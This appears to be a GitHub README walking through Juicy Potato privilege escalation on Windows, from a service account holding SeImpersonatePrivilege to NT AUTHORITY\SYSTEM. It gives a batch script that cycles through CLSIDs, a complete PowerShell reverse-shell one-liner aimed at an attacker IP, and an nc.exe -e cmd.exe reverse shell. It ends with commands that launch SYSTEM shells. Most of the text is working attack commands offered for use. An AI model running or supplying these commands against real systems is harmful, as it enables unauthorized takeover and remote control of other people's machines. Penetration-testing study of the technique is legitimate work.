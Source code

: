 # Juicy-Potato
Juicy Potato is a Privilege Escalation tool, from a Windows Service Accounts to NT AUTHORITY\SYSTEM. 

# Exploitation
First Check that you've SeImpersonatePrivilege Enabled

whoami /priv

![OnPaste 20220606-195812](https://user-images.githubusercontent.com/106917304/172181384-a233e095-62a2-4088-90f9-40312107bdbc.png)



With systeminfo we can see the target OS name

![OnPaste 20220606-185951](https://user-images.githubusercontent.com/106917304/172170491-77cc6851-f294-4156-9076-0a917bd08776.png)


Traget Arch

![OnPaste 20220606-190251](https://user-images.githubusercontent.com/106917304/172170739-bddac064-d18f-4f70-95fe-8ed3c94c7e7a.png)


Now we gonna get CLSID for our target machine

[Resource](https://github.com/ohpe/juicy-potato/tree/master/CLSID) 

Here my traget is Windows 7 Professional i can go for Windows 7 Enterprise, copy all the CLSID from CLSID.list file.

Open your favourite editor and paste all the CLSID and name the file CLSID.list.

Our target machine is x32-bit arch. Grab the Juicy Potato binary for 32-bit os.

[Resource](https://github.com/k4sth4/Juicy-Potato) 

We gonna make a test.bat file which gonna help you to execute the jp32.exe and find you a valid CLSID for attack.

Content of our test.bat file

```markdown

@echo off
:: Starting port, you can change it
set /a port=10000
SETLOCAL ENABLEDELAYEDEXPANSION
FOR /F %%i IN (C:\\Users\\Bob\Desktop\\CLSID.list) DO (
echo %%i !port!
C:\\Users\\Bob\\Desktop\\jp32.exe -z -l !port! -c %%i >> result.log
set RET=!ERRORLEVEL!
:: echo !RET!
if "!RET!" == "1" set /a port=port+1
)

```
### Changes to Make
Note: C:\\Users\\Bob\\Desktop\\CLSID.list and C:\\Users\\Bob\\Desktop\\jp32.exe are the place where we gonna upload our CLSID.list file and jp32.exe (juicy potato 32-bit).


## Using Powershell
Next we gonna create shell.bat file for our reverse ahell.

```markdown

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.x.x',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```

### Changes to make
NOTE: '10.10.x.x',1234 is the attacker IP and listening port for our reverse shell.



## Using msfvenom or nc.exe binary
generate a shell.exe binary using msfvenom.


Now upload jp32.exe, test.bat, CLSID.list, shell.bat or shell.exe / nc.exe to the user Desktop (same path that we used in our test.bat).

![OnPaste 20220606-192729](https://user-images.githubusercontent.com/106917304/172175237-70da4fdd-2e92-447e-a23d-622692e8b732.png)


Now execute the test.bat
        
        powershell Start-Process c:\Users\Bob\Desktop\test.bat  (if not in powershell)                                                           
        Start-Process c:\Users\Bob\Desktop\test.bat             (if in powershell) 
        
 Now wait for 5-mins you will see result.log file is created type the file you gonna see bunch of CLSID.
 
 ![OnPaste 20220606-193222](https://user-images.githubusercontent.com/106917304/172176176-c227b6c8-dd0b-4d31-9f75-f04a4dabb570.png)

We're insterested in SYSTEM CLSID. Grab one of SYSTEM CLSID.

Now we've found valid CLSID for SYSTEM we can use that CLSID and get system shell.

# Reverse Shell

## Using Powershell shell.bat

```markdown

c:\\Users\\Bob\\Desktop\\JuicyPotato.exe -l 1234 -p c:\\Users\\Bob\\Desktop\\shell.bat -t * -c {c980e4c2-c178-4572-935d-a8a429884806} 

```

## Using nc.exe

```markdown

c:\\Users\\Bob\\Desktop\\jp32.exe -l 443 -p c:\\windows\\system32\\cmd.exe -a "/c c:\\Users\\Bob\\Desktop\\nc.exe -e cmd.exe 192.168.x.x 443" -t * -c {659cdea7-489e-11d9-a9cd-000d56965251}

```

## Using shell.exe 

```markdown

c:\\Users\\Bob\\Desktop\\jp32.exe -l 443 -p c:\\windows\\system32\\cmd.exe -a "/c c:\\Users\\Bob\\Desktop\\shell.exe" -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}

```

![OnPaste 20220606-195312](https://user-images.githubusercontent.com/106917304/172180304-91e48267-0a99-43cd-bd33-0f13c36c90d9.png)

## Get Reverse Shell as SYSTEM

![OnPaste 20220606-195431](https://user-images.githubusercontent.com/106917304/172180726-4bdb1672-1a35-4e06-8458-a873b49c6926.png)


